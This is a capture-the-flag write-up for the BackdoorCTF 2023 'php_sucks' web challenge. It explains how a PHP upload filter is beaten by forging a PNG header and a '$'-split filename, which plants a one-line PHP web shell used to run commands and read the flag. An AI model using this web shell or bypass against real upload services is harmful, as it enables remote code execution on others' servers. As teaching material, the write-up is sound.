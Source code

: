 # BackdoorCTF 2023

## Web/php_sucks

## Challenge Overview

Description: I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it. 

Author: j4ck4l :>)

![Index](./images/index.png)

We have been given a [website](http://35.222.114.240:8002/chal/upload.php). We can see a simple upload form.

Let's try to upload a text file. And the server responds with `File size should be less than 200KB, and only png, jpeg, and jpg are alloweded`

![error1](./images/error1.png)

Hmm so to understand the functionality more let's see the source code

The code is obfuscated and in a single line, let's use an online beautifier and we get the below source code

```php
<?php 
$allowedExtensions = ["jpg", "jpeg", "png"];
$errorMsg = "";
if (
    $_SERVER["REQUEST_METHOD"] === "POST" &&
    isset($_FILES["file"]) &&
    isset($_POST["name"])
) {
    $userName = $_POST["name"];
    $uploadDir = "uploaded/" . generateHashedDirectory($userName) . "/";
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0750, true);
    }
    $uploadedFile = $_FILES["file"];
    $fileName = $uploadedFile["name"];
    $fileTmpName = $uploadedFile["tmp_name"];
    $fileError = $uploadedFile["error"];
    $fileSize = $uploadedFile["size"];
    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
    if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000) {
        $fileName = urldecode($fileName);
        $fileInfo = finfo_open(FILEINFO_MIME_TYPE);
        $fileMimeType = finfo_file($fileInfo, $fileTmpName);
        finfo_close($fileInfo);
        $allowedMimeTypes = ["image/jpeg", "image/jpg", "image/png"];
        $fileName = strtok($fileName, chr(7841151584512418084));
        if (in_array($fileMimeType, $allowedMimeTypes)) {
            if ($fileError === UPLOAD_ERR_OK) {
                if (move_uploaded_file($fileTmpName, $uploadDir . $fileName)) {
                    chmod($uploadDir . $fileName, 0440);
                    echo "File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
                } else {
                    $errorMsg = "Error moving the uploaded file.";
                }
            } else {
                $errorMsg = "File upload failed with error code: $fileError";
            }
        } else {
            $errorMsg = "Don't try to fool me, this is not a png file";
        }
    } else {
        $errorMsg =
            "File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
    }
}
function generateHashedDirectory($userName)
{
    $randomSalt = bin2hex(random_bytes(16));
    $hashedDirectory = hash("sha256", $userName . $randomSalt);
    return $hashedDirectory;
} ?>
```


## Vulnerability Identification

Okay so let's analyse it block by block.

It first asks for a file and then it checks the file extension using 
```php
$fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
 if (in_array($fileExt, $allowedExtensions) && $fileSize < 200000)
 ....... continued
```
so if the extension is `jpg, jpeg, png` and the file size is less than 200kb it will try to execute further instructions.

Okay then if you pass the extension check we have another check that is the MIME type check. So if you try to fool the server by uploading a file like `exploit.php.png` but the file type is actually a `php` then the server will give you and error --> `Don't try to fool me, this is not a png file`.

![error2](./images/error2.png)

Okay so let's try to upload a file with the header `png/jpeg/jpg` 

We can do it with a file using `xxd -r -p -o 0 <(echo 8950 4e47 0d0a 1a0a 0000 000d 4948 4452) exploit.php.png`

So if you check the file type now it will bypass the MIME check.

But the problem is if it is uploaded it will be uploaded as exploit.php.png so an image will open so it is not helpful to solve the challenge

## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **PNG**. And then we will inject some php code to exploit the server.

We will name this file as `exploit.php%00.png`. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

But here is a twist.

Have a look at this line of code 

```php
$fileName = strtok($fileName, chr(7841151584512418084));
```

if you use php interactive shell you can see the `chr(7841151584512418084)` 

```
php > echo chr(7841151584512418084);
$
php > echo urlencode(chr(7841151584512418084));
%24
```
so the file name will be split by $.

So to exploit this we will create a file `exploit.php%24.png` or `exploit.php$.png` with header of png and content as 

```php
�PNG
^Z
^@^@^@^MIHDR<?php if(isset($_GET['cmd'])) { echo shell_exec($_GET['cmd']); } ?>
```

## Obtaining the Flag
So we will upload the file and the file name which will be uploaded will be `exploit.php` and when we open the file . BOOM we got the shell

let's do rce now and list the files two directories back we get the name of flag file as `s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

and now `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt` to read the file.

![Flag](./images/flag.png) 

Flag: **flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}**

Thank You
